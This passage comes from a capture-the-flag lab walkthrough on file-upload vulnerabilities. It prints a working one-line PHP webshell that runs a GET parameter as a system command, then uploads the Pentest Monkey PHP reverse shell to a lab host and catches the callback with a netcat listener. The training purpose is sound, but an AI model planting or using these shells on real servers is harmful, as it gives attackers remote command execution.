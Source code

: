 Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.

A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

```php
<?php
    echo system($_GET["cmd"]);
?>
```

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![](https://i.imgur.com/CU0Uyx5.png)

Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.

**Reverse Shells:**

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say

```php
$ip = '127.0.0.1';  // CHANGE THIS
```

-- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access). You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:

![](https://i.imgur.com/ysY306E.png)

Now, let's upload the shell, then activate it by navigating to http://demo.uploadvulns.thm/uploads/shell.php. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).

The website should hang and not load properly -- however, if we switch back to our terminal, we have a hit!

![](https://i.imgur.com/he0hbiR.png)
